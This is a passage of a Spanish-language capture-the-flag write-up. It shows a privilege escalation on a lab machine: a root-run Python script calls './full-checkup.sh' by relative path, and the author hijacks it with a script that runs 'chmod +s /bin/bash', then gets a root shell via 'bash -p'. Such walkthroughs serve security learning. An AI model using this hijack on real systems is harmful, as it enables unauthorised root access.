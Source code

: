 ```python
            raise IndexError

    except IndexError:
        print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
        print('')
        print('     docker-ps     : List running docker containers')
        print('     docker-inspect : Inpect a certain docker container')
        print('     full-checkup  : Run a full system checkup')
        print('')
        exit(1)
```

Donde vi vemos la opcion de ```full-checkup``` esta ejecutando un archivo sh:

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

Donde el script ```full-checkup.sh``` no se le indica la ruta, es decir, se ejecuta desde el directorio donde este el usuario, asi que... ¿Por que no crearlo?, me ire al directorio /tmp y dentro del script, le asignare permisos SUID a /bin/bash:

```
#!/bin/bash
chmod +s /bin/bash
```

Ahora solo ponemos: ```bash -p``` y ya somos root

```
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
f46884c23c53cc716ac549803*******
```

Eso ha sido todo, gracias por leer ❤